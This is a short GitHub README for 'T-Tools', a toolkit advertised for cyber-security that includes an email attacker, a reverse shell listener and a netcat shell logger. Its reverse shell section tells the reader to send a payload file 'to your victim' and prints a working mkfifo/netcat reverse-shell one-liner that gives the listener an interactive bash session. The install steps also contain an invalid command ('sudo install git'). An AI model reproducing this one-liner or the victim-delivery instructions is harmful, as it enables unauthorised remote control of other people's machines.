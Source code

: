 # T-Tools-advanced--cyber-security


# What is T-Tools

T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in listener.py and run it to start listening


Then send the run.py file to your victim.


    kali@attacker ~ $ python3 listen.py
    kali@victim ~ $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 0.0.0.0 9999 >/tmp/f  
           
made by Treveen
